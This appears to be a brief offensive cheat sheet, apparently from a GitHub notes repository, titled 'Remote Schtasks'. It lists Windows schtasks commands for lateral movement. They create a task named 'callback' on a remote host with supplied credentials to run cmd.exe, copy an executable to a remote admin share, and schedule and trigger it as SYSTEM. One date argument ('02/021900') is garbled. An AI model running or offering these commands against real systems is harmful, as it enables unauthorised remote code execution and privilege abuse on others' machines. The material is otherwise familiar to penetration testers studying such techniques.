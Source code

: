 # Remote Schtasks
- schtasks /create /tn callback /s 127.0.0.1 /u user /p password /sc hour /st 02:00:00 /sd 04/21/2022 /tr cmd.exe
- schtasks /query /s 127.0.0.1
## Alternate method
copy test.exe \\192.192.192.192\c$
schtasks /create /s 192.192.192.192 /tn test /sc once /sd 02/021900 /st 00:00 /ru system /tr "C:\test.exe"
schtasks /s 192.192.192.192 /run /tn test